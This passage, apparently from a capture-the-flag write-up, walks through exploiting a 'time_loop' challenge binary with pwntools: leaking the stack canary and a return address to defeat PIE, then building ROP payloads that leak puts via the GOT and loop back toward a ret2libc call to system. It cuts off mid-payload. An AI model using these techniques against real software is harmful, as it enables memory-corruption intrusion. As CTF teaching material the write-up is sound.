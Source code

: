 ### Second day: Defeating `PIE`
Since we are able to easily leak the canary value on the stack which is at `rbp-0x08`, we should be able to leak the return address which is nearby at the `rbp+0x8`.  
The intention to leaking that is to leak runtime base address of the program by subtracting the runtime address with fixed function offset.

```py
# Second day 
p.recvuntil(b"hours remaining\n")
p.send(b'B' * 24 + b'C' * 16) # 
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
return_addr = output[40:46].ljust(8, b'\x00')
return_addr = u64(return_addr)

elf.address = return_addr - 0x1373 
timeloop_address = elf.sym['time_loop']
```

### Last day: Looping back to function, `time_loop` 
My original idea was to finish the challenge with just one ROP chain in the last day of the very first loop:  
```py
payload = flat(
    b'B' * 24, # padding up to canary
    p64(canary), # reserved canary value to bypass it
    b'C' * 8, # saved old rbp 
    # 40 bytes already 

    p64(base_addr + 0x000000000001403), # gadget: pop rdi ; ret 
    p64(elf.got['puts'] + base_addr),   # leaking puts address 
    p64(elf.plt['puts'] + base_addr),
    p64(base_addr + 0x000000000001403), 
    p64(3), # argument for time_loop 
    # 40 more bytes written again 

    p64(timeloop_address)
    # In total: 88 bytes
)
```
Since the size of the payload is a bit too large as `read` in this program only takes `80` bytes 
```c
read(0,buffer,80);
```
Then, I figured out that if I go into the second loop using:

the return address pushed onto the stack would be 
```
__libc_start_main+243

x7fffe831fab8 —▸ 0x7f6851cbe083 (__libc_start_main+243) ◂— mov edi, eax
```
which is also a GOT function address. Therefore I got the idea of 
1. leaking libc version by just leaking common libc function addresses at the end of first loop, then change it to go to second loop
```py
# Last day, trying to loop back

payload = flat(
    b'B' * 24, # padding to get to canary
    p64(canary),
    b'C' * 8, # padding to get to return address

    # go straight into second loop to leak libc base address and thus calculate system 
    p64(elf.address + 0x000000000000101a),
```